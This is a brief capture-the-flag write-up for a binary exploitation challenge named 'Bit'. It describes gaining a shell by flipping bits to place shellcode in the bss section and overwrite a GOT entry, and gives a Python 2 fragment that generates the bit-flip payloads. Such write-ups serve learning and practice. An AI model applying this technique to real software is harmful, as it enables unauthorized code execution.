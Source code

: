 ## Bit (Pwn)

The challange allowed us input 2 values i.e addr & bit position , the bit is flipped at given addr at given pos  
The exploit is simple write a shellcode in bss addr , and overwrite got to get shell
But actual problem i faced in ctf was to write the math to generate no using bit flipping 

```python
 #### bit flipping algo 

*addr = *addr ^ (1<<bit)

 #### number generate algo 

   for bit in range(0, 8):   # checks bit by bit if not equal flip the bit 
        if (initial & (1<<bit)) != (new & (1<<bit)):
	    print "[+] initial & (1<<bit)  "+ str(initial & (1<<bit))
            print "[+] new & (1<<bit)  "+str(new & (1<<bit))
            payload = "{}:{}".format(hex(addr), bit)
            print payload
            io.sendline(payload)
```
